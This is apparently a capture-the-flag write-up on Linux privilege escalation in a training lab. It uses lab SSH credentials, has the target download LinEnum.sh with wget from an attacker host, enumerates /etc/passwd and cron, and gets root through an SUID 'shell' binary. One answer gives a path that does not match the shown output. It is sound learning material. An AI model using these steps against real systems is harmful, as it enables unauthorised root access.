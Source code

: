 export IP: 10.10.121.59

```
user:user3
password:password

```

ssh user3@10.10.121.59

```
1. ssh to machine then verify if target can ping back attacker

user3@polobox:~$ ping 10.2.77.171
PING 10.2.77.171 (10.2.77.171) 56(84) bytes of data.
64 bytes from 10.2.77.171: icmp_seq=1 ttl=61 time=367 ms
^C
--- 10.2.77.171 ping statistics ---
2 packets transmitted, 1 received, 50% packet loss, time 1001ms
rtt min/avg/max/mdev = 367.411/367.411/367.411/0.000 ms
user3@polobox:~$ 
```

2. set up http server on /ken/LinEnum on port 8080. We will be copying the shell to our target machine

```
user3@polobox:~$ wget "http://10.2.77.171:8080/LinEnum.sh"
--2022-08-10 07:53:34--  http://10.2.77.171:8080/LinEnum.sh
Connecting to 10.2.77.171:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                    100%[==============================================>]  45.54K  60.0KB/s    in 0.8s    

2022-08-10 07:53:35 (60.0 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

user3@polobox:~$ 

```

Questions:

First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.


What is the target's hostname?

```
[-] Hostname:
polobox
```
Look at the output of /etc/passwd how many "user[x]" are there on the system?
Ans. 8

```

user1:x:1000:1000:user1,,,:/home/user1:/bin/bash
user2:x:1001:1001:user2,,,:/home/user2:/bin/bash
user3:x:1002:1002:user3,,,:/home/user3:/bin/bash
user4:x:1003:1003:user4,,,:/home/user4:/bin/bash
statd:x:120:65534::/var/lib/nfs:/usr/sbin/nologin
user5:x:1004:1004:user5,,,:/home/user5:/bin/bash
user6:x:1005:1005:user6,,,:/home/user6:/bin/bash
mysql:x:121:131:MySQL Server,,,:/var/mysql:/bin/bash
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user8:x:1007:1007:user8,,,:/home/user8:/bin/bash
sshd:x:122:65534::/run/sshd:/usr/sbin/nologin


```

How many available shells are there on the system?
Ans. 4

```
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash

```

What is the name of the bash script that is set to run every 5 minutes by cron?
Ans. autoscript.sh

```

[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```

What critical file has had its permissions changed to allow some users to write to it?

```
/etc/passwd

```


Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!


===================


What is the path of the file in user3's directory that stands out to you?
Ans. /home/user2/shell

```
user3@polobox:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/sbin/mount.ecryptfs_private
/sbin/mount.cifs
/usr/sbin/pppd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/umount
/bin/fusermount
/home/user5/script
/home/user3/shell
user3@polobox:~$ 

```


We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it!

We can do this by running: "./shell"

```

user3@polobox:~$ ./shell
You Can't Find Me
Welcome to Linux Lite 4.4 user3
 
Wednesday 10 August 2022, 08:14:27
Memory Usage: 337/1991MB (16.93%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# 


```



Congratulations! You should now have a shell as root user, well done!

================


First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"



Having read the information above, what direction privilege escalation is this attack?
Ans. Vertical











